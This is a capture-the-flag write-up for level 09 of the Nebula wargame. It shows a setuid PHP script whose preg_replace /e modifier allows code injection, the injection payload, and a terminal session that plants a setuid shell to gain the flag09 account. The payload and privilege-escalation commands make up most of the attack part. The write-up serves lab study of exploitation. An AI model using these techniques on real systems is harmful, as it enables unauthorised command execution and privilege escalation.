 {{< codecaption lang="php" title="Source Code" >}}
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);
  
  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
{{< /codecaption >}}

This code has `preg_replace with /e modifier` vulnerability. 
Googling this vulnerability we find a post that details the exploitation [here][phpexploit] . 

The vulnerability in our case can be exploited by passing commands via second parameter (which is unused in the code itself), or, 
as described in the post, via first parameter's file contents: 

{{< codecaption lang="text" title="File Contents" >}}
[email ${`shell commands`}]
{{< /codecaption >}}

The full exploit (again reusing setuid shell):

{{< codecaption lang="sh" title="Flag09" >}}
level09@nebula:/home/flag09$ cat /tmp/phpshell 
[email ${`cp /tmp/shell /home/flag09/shell && chmod 4755 /home/flag09/shell`}]

level09@nebula:/home/flag09$ ./flag09 /tmp/phpshell 1
PHP Notice:  Undefined variable:  in /home/flag09/flag09.php(15) : regexp code on line 1


level09@nebula:/home/flag09$ ls -al
total 21
drwxr-x--- 1 flag09 level09   60 2016-05-01 01:20 .
drwxr-xr-x 1 root   root     120 2012-08-27 07:18 ..
-rw-r--r-- 1 flag09 flag09   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag09 flag09  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag09 level09 7240 2011-11-20 21:22 flag09
-rw-r--r-- 1 root   root     491 2011-11-20 21:22 flag09.php
-rw-r--r-- 1 flag09 flag09   675 2011-05-18 02:54 .profile
-rwsr-xr-x 1 flag09 level09 7322 2016-05-01 01:20 shell
level09@nebula:/home/flag09$ ./shell
flag09@nebula:/home/flag09$ getflag 
You have successfully executed getflag on a target account
flag09@nebula:/home/flag09$ 
{{< /codecaption >}}


[phpexploit]: http://www.madirish.net/402
[race]: https://en.wikipedia.org/wiki/Time_of_check_to_time_of_use
[ld]: (https://rafalcieslak.wordpress.com/2013/04/02/dynamic-linker-tricks-using-ld_preload-to-cheat-inject-features-and-investigate-programs/)